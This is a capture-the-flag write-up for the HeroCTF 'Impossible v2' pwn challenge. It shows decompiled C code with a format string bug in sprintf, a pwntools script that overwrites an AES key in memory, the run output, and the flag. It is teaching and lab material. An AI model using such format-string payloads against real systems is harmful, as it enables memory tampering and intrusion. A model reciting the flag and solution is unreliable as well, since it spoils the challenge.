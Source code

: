 # Impossible v2

### Category

Pwn

### Description

Your colleague trolls you again by giving you an impossible challenge, betting $200 that, this time, you won't succeed.
Show him that this impossible challenge is in fact easy!

Format : Hero{flag}<br>
Author : SoEasY

### Files

- [impossible_v2](impossible_v2)

### Write Up

First of all, let's check the binary:
```bash
$ file impossible_v2       
impossible_v2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e36b1c8c585d4fa7364767816e446322d00cd8d1, for GNU/Linux 3.2.0, not stripped

$ checksec impossible_v2     
[*] '/home/soeasy/GitHub/HeroCTF_v5/Pwn/Impossible_v2/impossible_v2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
```

We have a x64 ELF with `no PIE` and `partial RELRO`. Let's execute it.
```bash
$ ./impossible_v2   
I've implemented a 1-block AES ECB 128 cipher that uses a random key.
Try to give me a message such as AES_Encrypt(message, key) = 0xdeadbeefdeadbeefcafebabecafebabe.
(don't try too much, this is impossible).

Enter your message: AAAA
Do you want to change it ? (y/n) y
Enter your message (last chance): BBBB
So, this is your final message: 424242420a0000000000000000000000000000000000000000000000000000000000000000000000

Well, I guess you're not this smart :)
```

So we have a message explaning that we have to met the condition `AES_Encrypt(message, key) = 0xdeadbeefdeadbeefcafebabecafebabe`, with an AES ECB 128 bits with a random key. By the way, keep in mind that we have two tries for our message (we can change it).

Let's check the code in IDA.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char choice; // [rsp+3h] [rbp-3Dh]
  char c; // [rsp+3h] [rbp-3Dh]
  int i; // [rsp+4h] [rbp-3Ch]
  FILE *fd_random; // [rsp+8h] [rbp-38h]
  FILE *fd; // [rsp+8h] [rbp-38h]
  char buffer_message[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 stack_canary; // [rsp+38h] [rbp-8h]

  stack_canary = __readfsqword(0x28u);
  puts(
    "I've implemented a 1-block AES ECB 128 cipher that uses a random key.\n"
    "Try to give me a message such as AES_Encrypt(message, key) = 0xdeadbeefdeadbeefcafebabecafebabe.\n"
    "(don't try too much, this is impossible).\n");
  fflush(stdout);

  fd_random = fopen("/dev/urandom", "rb");
  fread(&key, 0x10uLL, 1uLL, fd_random);
  fclose(fd_random);

  printf("Enter your message: ");
  fflush(stdout);
  fgets(buffer_message, 40, stdin);

  sprintf(message, buffer_message);
  printf("Do you want to change it ? (y/n) ");
  fflush(stdout);

  choice = getc(stdin);
  getc(stdin);

  if ( choice == 'y' )
  {
    printf("Enter your message (last chance): ");
    fflush(stdout);
    fgets(buffer_message, 40, stdin);
    sprintf(message, buffer_message);
  }

  printf("So, this is your final message: ");
  for ( i = 0; i <= 39; ++i )
    printf("%02x", (unsigned __int8)message[i]);
  puts("\n");
  fflush(stdout);

  AES_Encrypt(message, &key);

  if ( !memcmp(message, expected, 0x10uLL) )
  {
    puts("WHAT ?! THIS IS IMPOSSIBLE !!!");
    fd = fopen("flag.txt", "r");
    while ( 1 )
    {
      c = getc(fd);
      if ( c == -1 )
        break;
      putchar(c);
    }
    fflush(stdout);
    fclose(fd);
  }
  else
  {
    puts("Well, I guess you're not this smart :)");
    fflush(stdout);
  }
  return 0;
}
```

We can spot a vunlerability here: `sprintf(message, buffer_message);`. The user controls the formatter in `sprintf()`, causing a format string vulnerability! THie vulnerability is present in the two inputs so we can trigger the format string and then gie a well-formed input.

There are multiple ways to solve tihs challenge: the intended way was to patch the AES key by setting it to NULL (or any value, just to be sure we control the entire key) and then enter as a message `AES_DEC(0xdeadbeefdeadbeefcafebabecafebabe, key=0)`:
```py
from pwn import *

elf = context.binary = ELF("./impossible_v2")

r = remote("static-03.heroctf.fr", 5001)
# r = elf.process()

key_addr = elf.sym['key']
log.success(f"Key address: {hex(key_addr)}")

# If we control the key, we can send decrypt(deadbeefdeadbeefcafebabecafebabe) as a message

# In [1]: cipher = AES.new(bytes.fromhex('00000000000000000000000000000000'), AES.MODE_ECB)
# In [2]: cipher.decrypt(bytes.fromhex('deadbeefdeadbeefcafebabecafebabe')).hex()
# Out[2]: '4daa646aa2b5e32d1076a9e6bfa5e2ba'

writes = {
    key_addr:       0x0,
    key_addr + 8:   0x0
}

# offset 9: AAAAAAAA-%9$p --> AAAAAAAA-0x4141414141414141
# For some reason, fmtstr_payload will produce a payload like "%11$lln%12$lln" with offset=9
# --> let's use offset=7
payload = fmtstr_payload(7, writes)

log.success(f"Payload length: {len(payload)}")
log.success(f"Payload: {payload}")

r.sendlineafter(b"Enter your message: ", payload)

r.sendlineafter(b"Do you want to change it ? (y/n) ", b"y")

message = bytes.fromhex("4daa646aa2b5e32d1076a9e6bfa5e2ba")
r.sendlineafter(b"Enter your message (last chance): ", message)

print(r.recvall().decode())
```

Execution:
```bash
$ python3 solve.py
[*] '/home/soeasy/GitHub/HeroCTF_v5/Pwn/Impossible_v2/impossible_v2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to static-03.heroctf.fr on port 5001: Done
[+] Key address: 0x4040c0
[+] Payload length: 32
[+] Payload: b'%9$lln%10$llnaaa\xc0@@\x00\x00\x00\x00\x00\xc8@@\x00\x00\x00\x00\x00'
[+] Receiving all data: Done (197B)
[*] Closed connection to static-03.heroctf.fr port 5001
So, this is your final message: 4daa646aa2b5e32d1076a9e6bfa5e2ba0a0000000000000000000000000000000000000000000000

WHAT ?! THIS IS IMPOSSIBLE !!!
Hero{AES_ECB_1S_S0_345Y_WH3N_Y0U_C0NTR0L_TH3_K3Y!!!}
```

There were others way to solve it by for example patching the GOT (which was writable).

### Flag

```
Hero{AES_ECB_1S_S0_345Y_WH3N_Y0U_C0NTR0L_TH3_K3Y!!!}
```

